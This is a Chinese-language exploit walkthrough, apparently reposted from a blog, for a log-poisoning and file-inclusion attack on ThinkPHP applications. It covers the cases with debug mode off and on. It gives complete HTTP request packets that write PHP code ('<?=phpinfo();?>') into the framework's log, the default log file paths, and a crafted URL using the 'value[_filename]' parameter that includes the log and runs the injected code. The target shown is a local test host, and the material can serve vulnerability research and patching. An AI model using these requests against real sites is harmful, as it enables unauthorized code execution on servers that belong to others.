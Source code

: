 > 1.debug 模式关闭：
> 
>   

写入攻击代码到日志中。错误请求系统报错：

![](https://mmbiz.qpic.cn/mmbiz_png/50Hiagic8dst7PQ1icLB0RagTzUu2s7GCxbGvWa3RjeibDqDQjzCe9GxekWSVUFZ2OFibnuK7RyJaEzw98tX6hG4c3w/640?wx_fmt=png)

  

请求数据包：

```
GET /index.php?m=--><?=phpinfo();?> HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: en-GB,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeCookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;Upgrade-Insecure-Requests: 1
```

日志文件路径（这里是默认配置的 log 文件路径，ThinkPHP 的日志路径和日期相关）：

> \Application\Runtime\Logs\Common\21_06_30.log
> 
>   

日志文件内容：

![](https://mmbiz.qpic.cn/mmbiz_png/50Hiagic8dst7PQ1icLB0RagTzUu2s7GCxbasyPS1E03qGQFOM2iaTXaTWqv9WdyjDZGx2ERNaJ8Nd3gRHfyK1M1sQ/640?wx_fmt=png)

> 构造攻击请求：  
> http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_06_30.log
> 
>   

![](https://mmbiz.qpic.cn/mmbiz_png/50Hiagic8dst7PQ1icLB0RagTzUu2s7GCxbf20QnBwacGI7769PSguBnGKakibJriaOplpMXoIkcY4hoFWZrcU7zuXg/640?wx_fmt=png)

> 2.debug 模式开启：
> 
>   

```
上面的错误请求日志方式同样可用。另外debug模式开启，正确请求的日志也会被记录的到日志中，但日志路径不一样。
```

请求数据包：

```
GET /index.php?m=Home&c=Index&a=index&test=--><?=phpinfo();?> HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: en-GB,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeCookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;Upgrade-Insecure-Requests: 1
```

日志文件路径（这里是默认配置的 log 文件路径）：

> \Application\Runtime\Logs\Home\21_06_30.log
> 
>   

